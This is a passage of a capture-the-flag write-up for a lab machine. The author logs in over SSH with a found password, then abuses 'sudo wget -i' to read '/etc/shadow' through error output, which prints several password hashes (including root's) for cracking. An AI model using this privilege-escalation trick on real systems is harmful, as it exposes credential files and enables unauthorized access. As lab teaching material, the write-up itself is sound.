 ### Privilege Escalation II

So as mentione, we login using the username of `sammy` and the password `cooldude1` and it works perfectly! Remember, we need to specify the key algorithm again like last time else the login won't work.

```
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ 
```

From here we can grab our `user.txt` like usual and take that flag! Let's work on root now! Next we need to figure out how we can get root, I usually follow the same process for this. 

I'm first going to see what we can run with sudo by using `sudo -l` in this case we can run one thing `wget` this is useful actually. I say that because using `wget - i` you can download from URLs that are found in a file however, we can abuse this to read a file we shouldn't be able to (as we can run this with sudo) for example - this could be used for us to read `/etc/shadow` for example, if we could do this we can attempt to crack the root password, so that's what I am going to do first all just by using `sudo wget` :D

```
sudo wget -i /etc/shadow

sammy@sunday:~/Desktop$ sudo wget -i /etc/shadow
/etc/shadow: Invalid URL root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::: Unsupported scheme
/etc/shadow: Invalid URL daemon:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL bin:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL sys:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL adm:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL lp:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL uucp:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL nuucp:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL dladm:*LK*:::::::: Unsupported scheme
/etc/shadow: Invalid URL smmsp:NP:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL listen:*LK*:::::::: Unsupported scheme
/etc/shadow: Invalid URL gdm:*LK*:::::::: Unsupported scheme
/etc/shadow: Invalid URL zfssnap:NP:::::::: Unsupported scheme
/etc/shadow: Invalid URL xvm:*LK*:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL mysql:NP:::::::: Unsupported scheme
/etc/shadow: Invalid URL openldap:*LK*:::::::: Unsupported scheme
/etc/shadow: Invalid URL webservd:*LK*:::::::: Unsupported scheme
/etc/shadow: Invalid URL postgres:NP:::::::: Unsupported scheme
/etc/shadow: Invalid URL svctag:*LK*:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL nobody:*LK*:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL noaccess:*LK*:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL nobody4:*LK*:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::: Unsupported scheme
/etc/shadow: Invalid URL sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::: Unsupported scheme
No URLs found in /etc/shadow.
```
